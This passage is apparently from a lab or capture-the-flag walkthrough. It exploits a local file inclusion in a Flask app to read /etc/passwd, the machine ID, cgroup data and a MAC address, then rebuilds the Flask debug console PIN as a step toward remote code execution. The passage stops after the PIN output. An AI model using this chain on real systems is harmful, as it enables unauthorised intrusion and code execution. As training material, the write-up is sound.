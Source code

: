 ```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
jack:x:1001:1001::/home/jack:/bin/bash 
```

The inclusion is successful, and we see the contents of the file.

For now, we’ll take a note of the `jack` user.

Now that we have confirmed an LFI vulnerability, we need to find a  way to leverage it for further exploitation. After some investigation,  we discover that we are unable to include files with `py`, `txt`, `pyc`, `ini`, or `conf` extensions.

Recalling that this is a Flask application with an enabled (but  locked) debugging console, let’s research a potential bypass. Reading [this blog post](https://www.kingkk.com/2018/08/Flask-debug-pin安全问题/), we discover that we can recreate the Flask debug pin by exploiting the LFI vulnerability.

We should be able to do this with [this script](https://gist.github.com/InfoSecJack/70033ecb7dde4195661a1f6ed7990d42), but first we need the contents of three files: **/etc/machine-id** (`L2V0Yy9tYWNoaW5lLWlk`), **/proc/self/cgroup** (`L3Byb2Mvc2VsZi9jZ3JvdXA=`), and **/sys/class/net/INTERFACE_NAME/address**. We discover the machine id in **/etc/machine-id** by browsing to http://192.168.120.121:8080/data/L2V0Yy9tYWNoaW5lLWlk:

```
00566233196142e9961b4ea12a2bdb29
```

The **/proc/self/cgroup** file (http://192.168.120.121:8080/data/L3Byb2Mvc2VsZi9jZ3JvdXA=) contains the following:

```
12:perf_event:/ 11:freezer:/ 10:hugetlb:/ 9:rdma:/ 8:pids:/system.slice/blog.service 7:memory:/system.slice/blog.service 6:cpuset:/ 5:net_cls,net_prio:/ 4:devices:/system.slice/blog.service 3:blkio:/system.slice/blog.service 2:cpu,cpuacct:/system.slice/blog.service 1:name=systemd:/system.slice/blog.service 0::/system.slice/blog.service 
```

The value to note here is `blog.service`.

Finally, we need the MAC address of the network interface.  Unfortunately, we do not know the name of the interface the target is  using, but we can attempt a few more frequently-used names. Eventually,  we detect `ens160`, resolving the file of interest to be **/sys/class/net/ens160/address** (`L3N5cy9jbGFzcy9uZXQvZW5zMTYwL2FkZHJlc3M=`).

Navigating to [that address](http://192.168.120.121:8080/data/L3N5cy9jbGFzcy9uZXQvZW5zMTYwL2FkZHJlc3M=), we find the MAC address to be `00:50:56:8a:fc:e8` or `345049332968` in decimal.

### Remote Code Execution

Now that we have all the information needed to recreate the Flask  debug PIN, we can attempt to gain remote code execution. We can recreate the PIN with a script:

```
kali@kali:~$ python3 get_flask_pin.py --machineid '00566233196142e9961b4ea12a2bdb29blog.service' --uuid 345049332968
[!] App.py base path not provided, trying for most versions of python
2.7: 808-636-148
3.0: 326-388-942
3.1: 497-064-428
3.2: 134-262-617
3.3: 190-791-220
3.4: 238-677-304
3.5: 210-728-119
3.6: 173-509-958
3.7: 159-262-052
3.8: 751-326-702
kali@kali:~$ 
```
